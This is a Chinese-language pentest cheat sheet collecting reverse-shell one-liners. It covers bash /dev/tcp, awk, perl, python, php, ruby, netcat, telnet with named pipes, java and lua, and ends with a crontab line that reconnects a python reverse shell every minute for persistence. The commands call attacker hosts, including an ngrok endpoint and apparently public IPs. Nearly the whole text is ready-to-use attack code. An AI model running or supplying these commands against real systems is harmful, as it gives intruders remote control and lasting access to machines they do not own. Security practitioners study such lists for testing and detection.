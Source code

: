 # 渗透过程中的端口反弹

反弹

	反弹的各种姿势。
python -c 'import pty; pty.spawn("/bin/bash")'
-------------------
### bash版本：
``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
awk 'BEGIN{s="/inet/tcp/0/192.168.3.251/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
注意这个是由解析shell的bash完成，所以某些情况下不支持

###perl版本:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
###python版本:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ngrok.io",10036));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
###php版本：
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
###ruby版本：
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
###nc版本：
```bash
nc -e /bin/sh 223.8.200.234 1234
```
###nc不使用-e：
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
###mknod:
```
目标机器：# telnet 192.168.3.251 8080 | /bin/bash | telnet 192.168.3.251 1080
客户端：# nc -lvvp 8080 [传输指令]
# nc -lvvp 1080 [传输命令结果数据]

目标：mknod test p && telnet 192.168.3.251  8080 0<test | /bin/bash 1>test
客户端：nc -lvvp 8080

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```
###java版本：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###lua版本：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

计划任务：
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.3.251\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -